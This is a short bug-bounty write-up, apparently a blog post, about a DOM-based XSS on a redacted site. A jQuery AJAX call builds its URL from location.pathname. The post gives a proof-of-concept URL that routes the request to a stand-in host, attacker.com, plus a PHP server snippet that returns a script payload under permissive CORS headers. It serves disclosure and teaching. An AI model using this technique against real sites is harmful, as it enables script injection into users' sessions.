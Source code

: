 I was working on a private program which i cannot disclose

I checked the js file by the way when I checked the request. Found a suspicious piece of code

**www.xxxxx.com**   domain 

**/xxxxxxxxx/**    path

https://www.xxxxx.com/xxxxxxxxx/pdp.min.js

Vuln code

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t33.png)

ajax Get request response write to page

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t44.png)

Normal request looks like this

Visit this site

https://www.xxxxx.com/xxxxxxxxx

ajax will make such a request

https://www.xxxxx.com/xxxxxxxxx/showProductRedemption?productCode=263625


      var url = prefix + "/showProductRedemption?productCode=" + vpCode;
                $.ajax({
                    url: url,
                    type: "GET",
                    dataType: "html",
                    success: function(res) {
                        PDP.AjaxResponse.showProductRedemption(res);
                    },
                    error: function(res) {
                        console.error(res);
                    }
                });


But ***location.pathname*** attackers can control

So when location.pathname is set to //attacker.com

The browser will go to attacker.com

This will visit the attacker's website to get their website content

**POC**

https://www.xxxxx.com//attacker.com/xxxxxxxxx

location.pathname is //attacker.com/xxxxxxxxx
```
//attacker.com = https://attacker.com
```
ajax will request https://attacker.com/xxxxxxxxx for the response content

Attackers just need to set up their own website content

After Ajax gets the response from the attacker's website, it will write xsspayload to the page

An example with php

    <?php
    header("Access-Control-Allow-Origin: *");
    header("Access-Control-Allow-Credentials: true");
    header("Access-Control-Request-Methods:GET, POST, PUT, DELETE, OPTIONS");
    
    echo '<script>alert(1);</script>';
    ?>



So when the user visits https://www.xxxxx.com//attacker.com/xxxxxxxxx

Will trigger this dom xss![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t31.png)


Finally

![Image failed to load
e](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t20.png)

Thanks!

